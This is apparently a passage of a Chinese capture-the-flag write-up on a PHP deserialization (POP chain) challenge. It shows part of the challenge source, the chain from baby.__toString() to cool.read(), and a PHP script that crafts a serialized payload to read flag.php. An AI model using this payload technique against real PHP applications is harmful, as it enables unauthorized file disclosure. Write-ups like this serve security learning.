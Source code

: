 ```php
}
else
{
    highlight_file("./index.php");
}
?>
```

可以看到存在反序列化漏洞，构造的POP链为:

```php
baby.__toString()
	->cool.read()
```

注意到baby的$skyobj为protected变量，因此没法先实例化再赋值，只能改__constract()方法，将其设为cool的实例，然后将对象序列化，因为php弱类型，所以反序列化可以成功。通过如下代码生成payload：

```php
<?php
@error_reporting(1);
include 'flag.php';
class baby
{
    protected $skyobj;
    public $aaa;
    public $bbb;
    function __construct()
    {
        $c=new cool();
        $c->filename="flag.php";
        $this->skyobj = $c;
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class cool
{
    public $filename;
    public $nice; //baby object
    public $amzing;  //baby object serialized
    function read()
    {
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "you must be joking!";
            }
        }
    }
}

// echo $bb_ser;
```